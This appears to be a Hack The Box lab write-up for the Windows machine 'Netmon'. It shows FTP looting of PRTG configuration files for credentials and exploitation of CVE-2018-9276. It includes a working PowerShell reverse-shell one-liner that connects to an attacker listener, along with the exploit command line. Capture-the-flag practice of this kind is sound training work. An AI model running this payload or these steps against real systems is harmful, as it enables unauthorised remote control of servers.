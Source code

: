 ```yaml
---
layout: single
title: Netmon - Hack The Box
excerpt: "Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell."
date: 2025-05-29
classes: wide
header:
  teaser: /img2/netmon.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - FTP Enumeration
  - Information Leakage
  - Abusing PRTG Network Monitor - Command Injection [RCE]
---
```



- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.152
```

![](/img2/Pasted%20image%2020250528171155.png)

## Exploitation

- Download all content and get leaked credentials

```bash
wget -r ftp://10.10.10.152/ProgramData
```

```bash
grep -rl 'password' 10.10.10.152/ProgramData 2>/dev/null
```

![](/img2/Pasted%20image%2020250529204556.png)

![](/img2/Pasted%20image%2020250529204934.png)


- RCE PRTG/18.1.37.13946 (CVE-2018-9276)

```bash
python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.16.7 --lport 9000 --user prtgadmin --password PrTg@dmin2019
```

![](/img2/Pasted%20image%2020250529214501.png)

- Manual Explotation

![](/img2/Pasted%20image%2020250529215618.png)

> Go to add sensor and select the victim's device

![](/img2/Pasted%20image%2020250529215951.png)

> Select EXE/Script


![](/img2/Pasted%20image%2020250529220921.png)

```powershell
;$client = New-Object System.Net.Sockets.TCPClient('10.10.16.7',9000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

> Change the script type, add the payload and execute

```bash
rlwrap nc -nlvp 9000
```


![](/img2/Pasted%20image%2020250529211131.png)
